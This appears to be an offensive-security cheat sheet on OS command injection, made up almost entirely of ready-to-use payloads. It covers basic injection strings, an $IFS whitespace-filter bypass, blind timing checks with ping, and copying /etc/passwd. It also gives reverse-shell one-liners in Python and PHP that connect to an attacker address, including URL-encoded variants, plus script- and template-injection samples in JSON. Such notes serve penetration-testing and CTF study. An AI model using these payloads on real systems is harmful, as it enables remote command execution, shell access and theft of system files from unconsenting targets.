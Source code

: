 ```yaml
---
title: OS Command Injection
description: 
tags:
    - Remote Code Execution
    - Reverse Shell
    - Web
refs:
date: 2023-09-15
draft: false
---
```


## Basic Payloads

If the payload includes whitespaces (**' '**), we need to change it to **'+'** or **URL encoding ('%20')**.

```html
/api/cmd/whoami
/command/whoami

/?cmd=whoami
/?cmd=;id

/?cmd=ls
/?cmd=ls ..
/?cmd=ls ../
/?cmd=ls /home

/?cmd=`ping -c 1 10.0.0.1`

/?file=example.txt; echo $(ls -al /)
/?file=example.txt; echo $(ls -al /) |

<!-- PHP query string -->
/?q=;system($_GET[cmd])&cmd=whoami
/?q=${system($_GET[cmd])}&cmd=whoami

/?productId=1&stockId=1|whoami
/?productId=1&stockId=1|id

<!-- Windows -->
/?file=example.txt | systeminfo #
/?file=example.txt ; systeminfo #
/?file=example.txt') ; systeminfo #
```

<br />

## Bypass Whitespace Filter

Reference: [https://www.ctfnote.com/web/os-command-injection/whitespace-bypass](https://www.ctfnote.com/web/os-command-injection/whitespace-bypass)

If the website filters whitespaces and we cannot inject OS command including spaces e.g. **'sleep 5'**, we can insert **Internal Field Separator (IFS)** as whitespace.

```bash
$IFS$9
```

### Payload Examples:

```html
<!-- ping -c 5 10.0.0.1 -->
/?cmd=ping$IFS$9-c$IFS$9510.0.0.1
```

<br />

### Ping

Try pinging to our local machine for checking if our command injection achieves.  
To confirm the result, start tcpdump in our local machine.

```bash
# -i: Interface e.g. eth0, tun0
sudo tcpdump -i eth0 icmp
```

Then execute ping command in POST request.

Below are examples for POST data.

```bash
file=example.jpg&filetype=png;ping+-c+1+10.0.0.1
```

<br />

### Reverse Shell

```sh
file=example.jpg&filetype=png;export RHOST="10.0.0.1";export RPORT=4444;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```

<br />

### Blind Command Injection (Time Delay)

Use **"ping"** command to check if the website will be loaded with time delay.

```txt
name=michael&email=michael@example.com||ping+-c+10+127.0.0.1||&message=hello
email=test@test.com;ping+-c+15+127.0.0.1+#&message=hello
```

If we find the command can be executed, we can execute the other commands as below.

```txt
email=test@test.com;cp+/etc/passwd+./+#&message=hello
```

<br />

### JSON Injection

```json
{ "username": "\"; pwd \"" }
{"email": "\";ping -c 1 10.0.0.1\""}

{"name":"<script>alert(1)</script>", "email":"victim@vulnerable.com"}

{"name": "admin", "content": "{{template: ./admin.php}}"}
```

<br />

### PHP Injection

```bash
id=$(php -r '$sock=fsockopen("10.0.0.1",4444);exec("/bin/sh -i <&3 >&3 2>&3");')

# URL encode
id=1$(php%20-r%20'$sock=fsockopen(%2210.0.0.1%22,4444);exec(%22/bin/sh%20-i%20%3C&3%20%3E&3%202%3E&3%22);')
id=1$(php%20-r%20%27%24sock%3Dfsockopen%28%2210.0.0.1%22%2C4444%29%3Bexec%28%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27)
id=1`php%20-r%20%27%24sock%3Dfsockopen%28%2210.0.0.1%22%2C4444%29%3Bexec%28%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27`
```